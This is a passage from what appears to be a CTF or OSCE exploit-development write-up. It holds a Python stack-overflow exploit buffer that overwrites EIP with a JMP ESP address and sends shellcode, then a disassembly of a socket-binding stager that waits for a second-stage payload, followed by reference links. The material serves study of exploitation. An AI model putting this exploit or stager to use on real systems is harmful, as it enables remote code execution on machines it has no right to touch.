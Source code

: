 command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += block1
command += "E" * (max_size - len(command))

# send the initial exploit
pwn(command, port)
# wait a sec for the port to be bound
time.sleep(1)
# Send the payload on the bind port
pwn("AAA", port + 1)
{% endcodeblock %}

Resulting shellcode that appears in memory looks like this:

{% codeblock ASM listing %}
00B5FFC0   83EC 7C          SUB ESP,7C
00B5FFC3   BB 44343440      MOV EBX,40343444
00B5FFC8   C1EB 08          SHR EBX,8
00B5FFCB   B0 06            MOV AL,6
00B5FFCD   50               PUSH EAX
00B5FFCE   B0 01            MOV AL,1
00B5FFD0   50               PUSH EAX
00B5FFD1   40               INC EAX
00B5FFD2   50               PUSH EAX
00B5FFD3   FFD3             CALL EBX
00B5FFD5   89C7             MOV EDI,EAX
00B5FFD7   89D9             MOV ECX,EBX
00B5FFD9   B5 74            MOV CH,74
00B5FFDB   FE41 03          INC BYTE PTR DS:[ECX+3]
00B5FFDE   B3 54            MOV BL,54
00B5FFE0   6A 10            PUSH 10
00B5FFE2   51               PUSH ECX
00B5FFE3   50               PUSH EAX
00B5FFE4   FFD3             CALL EBX
00B5FFE6   B3 5C            MOV BL,5C
00B5FFE8   6A 7F            PUSH 7F
00B5FFEA   57               PUSH EDI
00B5FFEB   FFD3             CALL EBX
00B5FFED   B3 24            MOV BL,24
00B5FFEF   57               PUSH EDI
00B5FFF0   FFD3             CALL EBX
{% endcodeblock %}

By now you'll notice that the last call blocks until our attacker script connects the second time. After this, the registers look like this:


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux